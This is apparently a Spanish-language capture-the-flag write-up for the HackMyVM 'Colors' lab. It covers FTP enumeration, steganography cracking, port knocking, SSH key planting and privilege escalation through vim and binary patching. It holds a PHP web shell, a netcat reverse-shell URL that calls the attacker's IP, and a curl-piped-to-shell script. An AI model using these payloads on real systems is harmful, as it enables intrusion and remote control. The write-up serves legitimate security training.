

# Colors HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.25

Antes de empezar a la hora de descargar la maquina, esta viene con un archivo llamado **mision.txt** que dice lo siguiente: 
```
Hey hacker, I've heard a lot about you and I've been told you're good. 

The FBI has hacked into my apache server and shut down my website. I need you to sneak in and retrieve the "root.txt" file. I left my credentials somewhere but I can't remember where.

I will pay you well if you succeed, good luck hacker.
```
##Nmap

Comenzamos con un scaneo basico

```
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.25 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 18:22 EST
Nmap scan report for 10.0.2.25
Host is up (0.011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE    SERVICE
21/tcp open     ftp
22/tcp filtered ssh
80/tcp open     http
MAC Address: 08:00:27:E5:6C:9A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.92 seconds
```

```
❯ sudo nmap -Pn -sS -n -A -p 21,80 10.0.2.25
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 18:21 EST
Nmap scan report for 10.0.2.25
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 1127     1127            0 Jan 27 22:45 first
| -rw-r--r--    1 1039     1039            0 Jan 27 22:45 second
| -rw-r--r--    1 0        0          290187 Feb 11 16:35 secret.jpg
|_-rw-r--r--    1 1081     1081            0 Jan 27 22:45 third
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Document
MAC Address: 08:00:27:E5:6C:9A (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Unix

TRACEROUTE
HOP RTT     ADDRESS
1   0.23 ms 10.0.2.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

Vemos que el ftp tiene acceso anonimo asi que ingresamos anonimamente

```
❯ ftp 10.0.2.25
Connected to 10.0.2.25.
220 (vsFTPd 3.0.3)
Name (10.0.2.25:kali): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> get first 
local: first remote: first
229 Entering Extended Passive Mode (|||49107|)
150 Opening BINARY mode data connection for first (0 bytes).
     0        0.00 KiB/s 
226 Transfer complete.

ftp> get second
local: second remote: second
229 Entering Extended Passive Mode (|||38489|)
150 Opening BINARY mode data connection for second (0 bytes).
     0        0.00 KiB/s 
226 Transfer complete.

ftp> get secret.jpg
local: secret.jpg remote: secret.jpg
229 Entering Extended Passive Mode (|||31146|)
150 Opening BINARY mode data connection for secret.jpg (290187 bytes).
100% |***********************************************************************************************************************************************|   283 KiB  124.71 MiB/s    00:00 ETA
226 Transfer complete.
290187 bytes received in 00:00 (113.04 MiB/s)

ftp> get third
local: third remote: third
229 Entering Extended Passive Mode (|||28611|)
150 Opening BINARY mode data connection for third (0 bytes).
     0        0.00 KiB/s 
226 Transfer complete.
```

Ahora toca ver que son esos archivos. Los archivos first second y third no contienen nada, sin embargo la imagen al parecer si contiene informacion oculta

Al correr la herramienta stegcracker nos dice que esta retirada y que ahora se usa stegseek

```
❯ stegcracker secret.jpg -t 200 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'secret.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
^C9408/14344392 (2.02%) Attempted: vasanareversicinmeer
```

Descargamos la aplicacion y cuando lo corremos es super rapida

```
❯ stegseek secret.jpg                                  
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Nevermind"        
[i] Original filename: "more_secret.txt".
[i] Extracting to "secret.jpg.out".
```

al ver el archivo, este contiene un cifrado
```
❯ cat secret.jpg.out 
───────┬────────────────────────────────────────────────────────────────────────────────────────
       │ File: secret.jpg.out
───────┼────────────────────────────────────────────────────────────────────────────────────────
   1   │ <-MnkFEo!SARTV#+D,Y4D'3_7G9D0LFWbmBCht5'AKYi.Eb-A(Bld^%E,TH.FCeu*@X0)<BOr<.BPD?sF!,R<@<
       │ <W;Dfm15Bk2*/F<G+4+EV:*DBND6+EV:.+E)./F!,aHFWb4/A0>E$/g+)2+EV:;Dg*=BAnE0-BOr;qDg-#3DIml
       │ A+B)]_C`m/1@<iu-Ec5e;FD,5.F(&Zl+D>2(@W-9>+@BRZ@q[!,BOr<.Ea`Ki+EqO;A9/l-DBO4CF`JUG@;0P!/
       │ g*T-E,9H5AM,)nEb/Zr/g*PrF(9-3ATBC1E+s3*3`'O.CG^*/BkJ\:

```

Utilizando https://www.dcode.fr/cipher-identifier podemos ver que esta encriptado en ASCII85

Asi que usando la pagina que nos proporcionan https://www.dcode.fr/ascii-85-encoding vemos el contenido

```
Twenty years from now you will be more disappointed by the things that you didn't do than by the ones you did do. So throw off the bowlines. Sail away from the safe harbor. Catch the trade winds in your sails. Explore. Dream. Discover.
pink:Pink4sPig$$
```
Ahora intetaremos entrar por el puerto 22 pero esta filtered. Para esto existe el port knocking y usaremos los numero que encontramos la primera vez que entramos al ftp

```
❯ knock 10.0.2.25 1127 1039 1081
                                                                
❯ sudo nmap -Pn -sS -n -p- 10.0.2.25
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 19:27 EST
Nmap scan report for 10.0.2.25
Host is up (0.000099s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E5:6C:9A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
```

En un intento de conectarme mediante ssh me dice que no se puede debido a que solo se puede entrar mediante tus keys

```
❯ ssh pink@10.0.2.25                
The authenticity of host '10.0.2.25 (10.0.2.25)' can't be established.
ED25519 key fingerprint is SHA256:Dgjoo3i4uigkHRTkQY5MGbxQ/VGwXISMlIp1j3IV5ZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.25' (ED25519) to the list of known hosts.
pink@10.0.2.25: Permission denied (publickey).
```

Creamos nuestra llave publica

```
❯ rm -rf ~/.ssh 

❯ ssh-keygen 

❯ cp ~/.ssh/id_rsa.pub ~/Documents/Colors/

❯ cp ~/.ssh/id_rsa ~/Documents/Colors/

❯ mv ~/Documents/Colors/id_rsa.pub ~/Documents/Colors/authorized_keys
```

Ahora nos conectamos mediante ftp con el usuario de pink y le pasamos nuestra llave publica

```
❯ ftp 10.0.2.25
Connected to 10.0.2.25.
220 (vsFTPd 3.0.3)
Name (10.0.2.25:kali): pink
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32216|)
150 Here comes the directory listing.
drwx------    2 1127     1127         4096 Feb 11 19:55 green
drwx------    3 1000     1000         4096 Feb 11 19:18 pink
drwx------    2 1081     1081         4096 Feb 20 16:07 purple
drwx------    2 1039     1039         4096 Feb 11 19:56 red

ftp> cd pink
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||23857|)
150 Here comes the directory listing.
drwx------    3 1000     1000         4096 Feb 11 19:18 .
drwxr-xr-x    6 0        0            4096 Jan 27 22:44 ..
lrwxrwxrwx    1 1000     1000            9 Jan 27 20:30 .bash_history -> /dev/null
-rwx------    1 1000     1000          220 Jan 27 20:22 .bash_logout
-rwx------    1 1000     1000         3526 Jan 27 20:22 .bashrc
-rwx------    1 1000     1000          807 Jan 27 20:22 .profile
drwx------    2 1000     1000         4096 Feb 11 19:55 .ssh
-rwx------    1 1000     1000         3705 Feb 11 19:18 .viminfo
-rw-r--r--    1 1000     1000           23 Feb 11 16:59 note.txt
226 Directory send OK.

ftp> cd .ssh
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||55751|)
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 Feb 11 19:55 .
drwx------    3 1000     1000         4096 Feb 11 19:18 ..
226 Directory send OK.

ftp> put id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||48057|)
150 Ok to send data.
100% |***************************************************|  2590       47.50 MiB/s    00:00 ETA
226 Transfer complete.
2590 bytes sent in 00:00 (5.28 MiB/s)

ftp> put authorized_keys 
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||26498|)
150 Ok to send data.
100% |*******************************************|   563       13.42 MiB/s    00:00 ETA
226 Transfer complete.
563 bytes sent in 00:00 (1.24 MiB/s)

ftp> ls
229 Entering Extended Passive Mode (|||63371|)
150 Here comes the directory listing.
-rw-------    1 1000     1000          563 Mar 11 01:49 authorized_keys
-rw-------    1 1000     1000         2590 Mar 11 01:44 id_rsa
226 Directory send OK.
```

Ahora si nos conectamos mediante ssh. Al parecer el usuario pink no puede hacer mucho asi que nos tenemos que mover hacia usuario de www y luego intentar escalar privilegios

```
pink@color:/var/www/html$ touch test.php
pink@color:/var/www/html$ echo '<?php system($_GET['cmd']);?>' > test.php
pink@color:/var/www/html$ cat test.php 
<?php system($_GET[cmd]);?>
```

Poniendonos en escucha y entrando a esta pagina logramos obtener una reverse shell
```
http://10.0.2.25/test.php?cmd=nc%2010.0.2.4%20443%20-e%20%2Fbin%2Fbash
```

```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.25] 55154
```

Nos mejoramos a una shell inteligente

ahora si haciendo un poco de investigacion vemos que green puede ejecutar vim

```
www-data@color:/var/www/html$ sudo -l
Matching Defaults entries for www-data on color:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on color:
    (green) NOPASSWD: /usr/bin/vim
```

https://gtfobins.github.io/gtfobins/vim/
Con esta pagina logramos cambiar al usuario de Green

```
www-data@color:/var/www/html$ sudo -u green vim -c ':!/bin/sh'
$ id
uid=1127(green) gid=1127(green) groups=1127(green)
```

Encontramos esto en su home 
```
$ cat note.txt	
You've been working very well lately Green, so I'm going to give you one last test. If you pass it I'll give you the password for purple.

-root
```

```
$ ./test_4_green
Guess the number im thinking: 2312
Nope, sorry
```
Al parecer tenemos que adivinar el numero en el cual esta pensando, pero es practiamente imposible

Me paso a mi maquina el archivo 

```
$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.0.2.4 - - [11/Mar/2023 02:14:39] "GET /test_4_green HTTP/1.1" 200 -
```
```
❯ wget http://10.0.2.25:9000/test_4_green                   
--2023-03-10 20:14:35--  http://10.0.2.25:9000/test_4_green
Connecting to 10.0.2.25:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16928 (17K) [application/octet-stream]
Saving to: ‘test_4_green’

test_4_green            100%[===============================>]  16.53K  --.-KB/s    in 0s      

2023-03-10 20:14:35 (221 MB/s) - ‘test_4_green’ saved [16928/16928]
```

Con radare2 me abro el archivo https://github.com/radareorg/radare2

```
❯ r2 -w ./test_4_green
WARN: run r2 with -e bin.cache=true to fix relocations in disassembly
 -- Move around the bytes with h,j,k,l! Arrow keys are neither portable nor efficient
[0x000010b0]> V
```

Luego buscando entre el archivo nos encontramos con esto


**shift + a**  -> para escribir



Escribimos lo mismo que puse para que no haga la validacion si no que siempre piense que esta bien y por ultimo salimos con la siguiente combinacion
**q**  -> **q** -> **enter**

Ahora corremos el programa y nos da la contrasena

```
❯ chmod +x test_4_green 
                                                        
❯ ./test_4_green                         
Guess the number im thinking: 213
Correct!! Here is the pass:
***********as
purpleaslilas 
```

Ahora cambiamos de usuario y obtenemos la primera flag

```
purple@color:~$ cat user.txt
***********:)

purple@color:~$ cat for_purple_only.txt 
As the highest level user I allow you to use the supreme ddos attack script.

purple@color:~$ sudo -l
Matching Defaults entries for purple on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User purple may run the following commands on color:
    (root) NOPASSWD: /attack_dir/ddos.sh
```

Vemos de que va ese ddos

```
purple@color:~$ sudo /attack_dir/ddos.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:--     0curl: (6) Could not resolve host: masterddos.hmv

purple@color:~$ cat /attack_dir/ddos.sh 
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -p
```

Bueno intente escalar privilegios de todos los modos pero no me funciono.

Supongo que nos quedamos como usuarios por ahora jajaja

